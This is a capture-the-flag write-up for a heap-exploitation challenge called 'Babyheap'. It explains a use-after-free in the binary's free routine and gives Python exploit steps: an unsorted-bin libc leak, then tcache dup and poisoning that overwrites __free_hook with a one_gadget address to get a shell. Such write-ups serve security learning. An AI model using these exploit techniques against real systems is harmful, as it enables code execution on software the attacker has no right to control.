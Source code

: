 # Babyheap
We are given a classic heap exploitation binary, where we have the ability to malloc, free and show chunks in the memory.
The binary is has a ```while true``` that runs these options:
```
1. Allocate some memory
2. Show data at memory location
3. Free some memory
4. Exit
```

1. Allocating data lets us choose the size, contents and index of the chunk. There can be at most 8 chunks.
chunk addresses are stored in an array named ```heap_buf``` in the ```bss``` segment.
2. Printing data, lets us choose an index from the ```heap_buf``` array and prints its' contents.
3. Free, lets us free a chunk from the ```heap_buf``` array.
4. Exits.

## The vulnerabilities:
1. Let's take a look at the ```freeing``` function:
```c
void freeing(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What index would you like to free?");
  iVar1 = __isoc99_scanf(&DAT_00102031,&local_14);
  if (iVar1 == 0) {
    puts("Please enter an integer.");
    __isoc99_scanf(&DAT_0010204d,&local_15);
  }
  else {
    if (local_14 < 8) {
      free(*(void **)(heap_buf + (long)local_14 * 8));
    }
    else {
      puts("Can\'t reach that index!");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Well this function indeed frees a chunk but doesn't set the ```heap_buf``` at that index to ```0```, giving us use after free.

2. The libc version of the challenge is 2.27 so we have some freedom doing common heap exploits since this isn't libc >= 2.29
In particular, we will use unsorted bin libc leak and tcahce dup and tcache poisoning for our advantage.
## Our convenience functions:
```python
def alloc(index, size, content):
    p.sendlineafter("Exit", "1")
    p.sendlineafter("?", str(size))
    p.sendlineafter("?", str(index))
    p.sendlineafter("?",  content)

def free(index):
    p.sendlineafter("Exit", "3")
    p.sendlineafter("?", str(index))

def show(index):
    p.sendlineafter("Exit", "2")
    p.sendlineafter("?", str(index))
```

## Leaking libc
First of all, I want to leak libc base address and it is possible to do that by using unsorted bin vulnerability.
Unsorted bin, is a circular list, with both ends pointing into ```main_arena``` which are fixed variables in libc.
So, if we can leak one of the ends of this circular list we can determine libc base.

```python
alloc(0, 0x2000, 8*b"A")
alloc(1, 0x2000, 8*b"B")
free(0)
show(0)
```
We alloc two large chunks, when we free the first one it'll end up of the unsorted bin.
If I had allocated only one large chunk, upon free, it'll consolidate with the ```top``` chunk, therefore we must allocate two chunks.
Now because we have a use after free, when we so the contents of the first chunk we actually leak the ```fd``` pointer of the chunk in the unsorted bin.
This gives us a known address with a fixed offset of ```0x3ebca0``` to libc base.

## Quick overview of tcache dup & poisoning
Freed small chunks are stored in the ```tcache```, and upon ```maloc```ing chunks of some size, ```malloc``` will first lookup in the ```tcache```
Chunks in the tcache are structs that look like: 
```c
strcut chunk {
	INTERNAL_SIZE_T mchunk_prev_size;
	INTERNAL_SIZE_T mchunk_size;
	struct malloc_chunk* fd; //Pointer to the next chunk in the tcache.
	struct malloc_chunk* bk; //Pointer to the previous chunk in the tcahce.
```
Where the pointer to the chunk actually point to the ```fd``` member.
Now, imagine:
```c
malloc(0x10) // chunk #1
free(chunk1) 
free(chunk1)
```
The tcache will have the two same chunks, were the first chunk ```fd``` member points to itself.
Now,
```c
malloc(0x10) // we get the same chunk1, the first in the tcache
write(chunk1, address) // write some address to the newly malloc'd chunk.
malloc(0x10) // we get the same chunk2, the second in the tcache.
malloc(0x10) // we get a chunk that points to address!
```
The point is, that writing to chunk, actually override the ```fd``` member, and upon next allocation, ```malloc``` will be tricked and allocate the chunk pointed by the ```fd``` pointer of ```chunk1```

So,
```python
alloc(2, 0x10, 8*b"A")
alloc(3, 0x10, 8*b"B")
free(2)
free(2)

alloc(5, 0x10, p64(libc.sym["__free_hook"]))
alloc(6, 0x10, 8*b"C")
alloc(7, 0x10, p64(libc.address + 0x4f3c2))
```
allocating chunk 5 and writing ```__free_hook``` to it, will poison the tcache.
allocating chunk 6 will give us the 2nd ```free(2)``` entry from the tcache
Chunk 7 will point to ```__free_hook```, and we write the address of a ```one_gadget``` there.

Now simply ```free(0)``` and we get shell.


